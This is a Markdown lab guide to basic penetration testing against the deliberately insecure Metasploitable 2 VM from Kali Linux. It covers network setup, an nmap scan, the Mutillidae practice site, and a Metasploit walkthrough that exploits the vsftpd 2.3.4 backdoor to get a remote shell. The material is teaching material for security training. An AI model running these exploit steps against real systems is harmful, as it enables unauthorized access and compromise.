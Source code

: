 Metasploitable Basic Use
=========================

Metasploitable is a Linux distrubtion that is intentionally insecure. It is an ideal platform for learning basic penetration testing skills. In this lab, you will use Kali Linux to probe Metasploitable for weaknesses.

Prerequisites
-----------------------
* VirtualBox Installed
* Kali VM created
* Metasploitable 2 VM created

See previous instructions if you need to create the Kali or Metasploitable virtual machines.

Metasploitable IP Configuration
--------------------------------
1. Start the Metasploitable VM from VirtualBox. If you need to login, use `msfadmin` for the username and password.
2. The IP address should be 192.168.2.50.
3. Run `ifconfig` to check the IP address. If it needs to be set, run the following command.

```
sudo ifconfig eth0 192.168.2.50
```

Enter the password `msfadmin` when prompted.

Kali IP Configuration
---------------------------
1. Start the Kali VM from VirtualBox.
2. The IP address should be 192.168.2.10.
3. Run `ifconfig` in a terminal to check the IP address. If it needs to be set, run the following command.

```
ifconfig eth0 192.168.2.10
```

Note that by default, Kali runs terminals as the root user, so there is no need to add `sudo` to the command.

4. Do a test ping to ensure that the Metasploitable and Kali virtual machines can connect.

```
ping 192.168.2.50
```

5. The pings should be successful. If the pings are not successful, check the following settings:
  * Ensure that the network adapters are set to "Internal Network" in the VirtualBox manager.
  * Ensure that the IP addresses are correct.
  * Ensure that the subnet masks are 255.255.255.0.

Probe Metasploitable from Kali
---------------------------------

1. Nmap is a port scanning tool. From the Kali, run the following command to do a scan of the Metasploitable ports.

```
nmap 192.168.2.50
```

2. You should see many ports are open. The following screenshot shows a partial output of the nmap output.

&nbsp;![Nmap Output](nmap-no-arguments.png)

Many services are running that could be exploited by an attacker. It would be unusual to have an actual system running with this many open services.

Browse Mutillidae
--------------------------
Mutillidae is a website built with several weaknesses.

1. In Kali, open Iceweasel.

2. Open the URL `http://192.168.2.50/mutillidae`.

NOTE: If you have used the Burp suite recently, you may get a message saying, "Iceweasel is configured to use a proxy server that is refusing connections. You can either star the Burp suite, or change the Iceweasel proxy settings.

To revert the proxy settings in Iceweasel, click Settings > Preferences > Advanced > Network> Connection Settings. Check the box for `No proxy`. Reload the page in Iceweasel and you should see the website.

&nbsp;![Mutillidae](mutillidae.png)

3. There are other websites that can be exploited. You can view them in two ways. First, go to `http://192.168.2.50/` to see an index. Second, you can run the following commands in the Metasploitable terminal to see a directory listing of the files being served by the web server.

```
cd /var/www
ls
```

Exploit a Backdoor
-------------------------
Metasploitable runs the FTP server vsftpd. The version of vsftpd contains a backdoor that somebody introduced to the code. The backdoor was fixed in the code, but anybody who deployed the vulnerable version could be open to attack as long as they had the backdoor running on their system.

1. In Kali, open a terminal. Run the following command to open the Metasploit Framework Console.

```
msfconsole
```

2. It will take a moment to start up. You will be presented with a prompt.

```
msf >
```

3. Use tab completion to type the following command.

```
msf > use exploit/unix/ftp/vsftpd_234_backdoor
```

4. Run `show options` to see what should be specified.

&nbsp;![Backdoor Options](backdoor-options.png)

5. If you have have not set the RHOST, the value will be empty. The fault for RPORT will be 21. Run the following command to set the remote host that will be exploited.

```
set RHOST 192.168.2.50
```

6. Run `exploit` to execute the backdoor exploit. You should see output similar to the following.

&nbsp;![Exploited Backdoor](backdoor-exploited.png)

7. Run the following command to verify that the output matches the directory structure you examined earlier.

```
ls /var/www
```

&nbsp;![Backdoor Directory Listing](backdoor-ls.png)

8. Run the following command to determine what user you are running the commands as.

```
whoami
```

What user are you running as? What could you now do on this system?

9. Run `exit` to close the connection with the remote system.

&nbsp;![Exit System](backdoor-exit.png)
